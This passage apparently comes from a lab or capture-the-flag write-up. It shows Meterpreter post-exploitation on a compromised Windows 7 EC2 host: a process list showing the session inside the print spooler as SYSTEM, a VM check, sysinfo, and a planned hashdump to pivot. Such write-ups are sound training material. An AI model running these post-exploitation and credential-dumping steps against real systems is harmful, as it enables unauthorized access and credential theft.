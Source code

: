 ```powershell
 1304  708   spoolsv.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\spoolsv.exe
 1340  708   svchost.exe           x64   0        NT AUTHORITY\LOCAL SERVICE    
 1408  708   amazon-ssm-agent.exe  x64   0        NT AUTHORITY\SYSTEM           C:\Program Files\Amazon\SSM\amazon-ssm-agent.exe
 1480  708   LiteAgent.exe         x64   0        NT AUTHORITY\SYSTEM           C:\Program Files\Amazon\XenTools\LiteAgent.exe
 1616  708   Ec2Config.exe         x64   0        NT AUTHORITY\SYSTEM           C:\Program Files\Amazon\Ec2ConfigService\Ec2Config.exe
 1956  708   svchost.exe           x64   0        NT AUTHORITY\NETWORK SERVICE  
 2060  708   SearchIndexer.exe     x64   0        NT AUTHORITY\SYSTEM           
 2072  832   WmiPrvSE.exe                                                       
 2184  708   svchost.exe           x64   0        NT AUTHORITY\LOCAL SERVICE    
 2220  708   mscorsvw.exe          x64   0        NT AUTHORITY\SYSTEM           C:\Windows\Microsoft.NET\Framework64\v4.0.30319\mscorsvw.exe
 2496  708   TrustedInstaller.exe  x64   0        NT AUTHORITY\SYSTEM           
 2548  708   sppsvc.exe            x64   0        NT AUTHORITY\NETWORK SERVICE  
 2956  708   vds.exe               x64   0        NT AUTHORITY\SYSTEM           
 2996  708   svchost.exe           x64   0        NT AUTHORITY\SYSTEM
```

Luckily for me it already looked like it was in the injected in the spool service so there was no need to proceed with a migration.

Even though I already knew where this host was running from deploying it, the ps output also established that this host was an EC2 instance via the `ssm-agent`, `LiteAgent` and `Ec2Config` processes. This could have also been observed in the nmap scans via the reverse dns lookup, but I thought it was worth calling out.

Confirmed again with a quick run of the `post/windows/gather/checkvm` module.

```bash
meterpreter > run post/windows/gather/checkvm 

[*] Checking if JON-PC is a Virtual Machine ...
[+] This is a Xen Virtual Machine
```

Finally I grabbed a sysinfo output to confirm a bunch of information that I had already assumed or known.

```powershell
meterpreter > sysinfo 
Computer        : JON-PC
OS              : Windows 7 (6.1 Build 7601, Service Pack 1).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 0
Meterpreter     : x64/windows
```

With all this information, I attempted to grab a hashdump to pivot from this shell to a longer-lived user.
